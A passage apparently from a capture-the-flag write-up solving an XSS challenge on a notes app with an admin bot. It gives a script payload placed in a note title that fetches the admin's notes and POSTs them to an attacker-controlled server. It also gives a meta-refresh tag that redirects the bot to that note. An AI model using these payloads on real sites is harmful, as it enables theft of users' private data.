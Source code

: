 ```javascript
});
```

When the bot make a POST request to `/receive` with the body is the admin's notes, the server will write the data to `out.ndjson` then I host it with my hosting server (on cPanel).

Next, in the website I need two notes to achieve my purpose.

First post containing the script that will make the bot send admin's notes:

```
Title: <script>fetch('/api/notes').then(async res => {
    const jsonData = await res.json();

    fetch('https://<YOUR_SERVER_DOMAIN>/receive', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ payload: jsonData })
    });
})</script>

Content: Anything
```

Second post containing a meta tag that will make the bot automatically redirect to `/api/notes/<MY_SCRIPT_NOTE_ID>` since the `/dashboard?reviewNote=<NOTE_ID>` cannot execute script as we tested before.

```
Title: <meta http-equiv="refresh" content="0;url=/api/notes/<SCRIPT_NOTE_ID>">

Content: Anything
```

![Guide image](../screenshots/7.png)
